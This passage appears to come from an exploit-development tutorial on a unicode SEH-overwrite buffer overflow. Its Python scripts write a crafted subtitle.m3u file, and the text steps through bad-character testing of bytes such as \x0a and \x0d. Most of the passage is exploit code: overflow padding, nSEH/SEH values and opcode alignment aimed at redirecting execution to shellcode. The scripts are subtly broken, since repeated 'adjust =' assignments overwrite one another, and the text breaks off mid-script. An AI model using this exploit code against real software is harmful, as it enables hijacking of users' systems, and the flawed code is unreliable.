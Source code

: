 Still a problem. Try again with just \x09\x0a?

#!/usr/bin/python
junk  = "\x41" \* 4078
nseh = "\x61\x62"
seh = "\xeb\x46" \* 2
adjust = "\x53" # PUSH EBX
adjust = "\x62" # NOP padding to absorb the \x00's that will be added
             # after the \x53 instruction in memory
adjust = "\x58" # POP EAX  to make eax point to the beginning of our shellcode.
adjust = "\x62" # NOP padding
adjust = "\x50" # PUSH EAX to push eax to the stack...
adjust = "\x62" # NOP padding
adjust = "\xc3" # RETN to go to the beginning of the shellcode....
buffer = "\x62" \* 12
junk2  =  "\x09\x0a"
#\x0b\x0c\x0d\x0e
exploit = junk + nseh + seh + adjust + buffer + junk2
handler = open ("subtitle.m3u", "w")
handler.write(exploit)
handler.close()

And would you believe it. We still have an error. Testing out \x09 and \x0a by themselves should reveal that \x0a is another bad character. Once you are done you can take \x0a and replace the other characters back in.

#!/usr/bin/python
junk  = "\x41" \* 4078
nseh = "\x61\x62"
seh = "\xeb\x46" \* 2
adjust = "\x53" # PUSH EBX
adjust = "\x62" # NOP padding to absorb the \x00's that will be added
             # after the \x53 instruction in memory
adjust = "\x58" # POP EAX  to make eax point to the beginning of our shellcode.
adjust = "\x62" # NOP padding
adjust = "\x50" # PUSH EAX to push eax to the stack...
adjust = "\x62" # NOP padding
adjust = "\xc3" # RETN to go to the beginning of the shellcode....
buffer = "\x62" \* 12
junk2  =  "\x09\x0b\x0c\x0d\x0e"
exploit = junk + nseh + seh + adjust + buffer + junk2
handler = open ("subtitle.m3u", "w")
handler.write(exploit)
handler.close()

Which returns an error yet again. Try it with just \x0b and you will find its not that one? \x0d?

#!/usr/bin/python
junk  = "\x41" \* 4078
nseh = "\x61\x62"
seh = "\xeb\x46" \* 2
adjust = "\x53" # PUSH EBX
adjust = "\x62" # NOP padding to absorb the \x00's that will be added
             # after the \x53 instruction in memory
adjust = "\x58" # POP EAX  to make eax point to the beginning of our shellcode.
adjust = "\x62" # NOP padding
adjust = "\x50" # PUSH EAX to push eax to the stack...
adjust = "\x62" # NOP padding
adjust = "\xc3" # RETN to go to the beginning of the shellcode....
buffer = "\x62" \* 12
junk2  =  "\x0d" 